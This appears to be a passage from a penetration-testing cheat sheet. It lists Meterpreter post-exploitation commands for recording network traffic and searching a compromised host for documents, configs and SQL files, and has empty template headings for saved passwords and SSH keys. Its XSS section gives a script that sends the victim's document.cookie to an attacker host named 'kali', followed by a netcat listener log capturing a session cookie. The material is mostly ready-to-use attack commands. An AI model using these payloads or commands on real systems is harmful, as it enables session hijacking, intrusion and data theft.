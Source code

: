 ### Tcpdump

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# How to cat files in meterpreter
cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt

# Recursive search
dir /s
```

### Mail

### Browser

- Browser start-page:
- Browser-history:
- Saved passwords:

### Databases

### SSH-keys

## How to replicate:


## XSS


```
<script>alert("XSS")</script>

<script>
new Image().src="http://kali/bogus.php?output="+document.cookie;
</script>

root@kali:~# nc -nlvp 80
listening on [any] 80 ...
connect to [kali] from (UNKNOWN) [target] 49455
GET /bogus.php?output=PHPSESSID=CREDS HTTP/1.1
Accept: */*
Referer: http://127.0.0.1/index.php
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2;
.NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
Accept-Encoding: gzip, deflate
Host: 192.168.10.5
```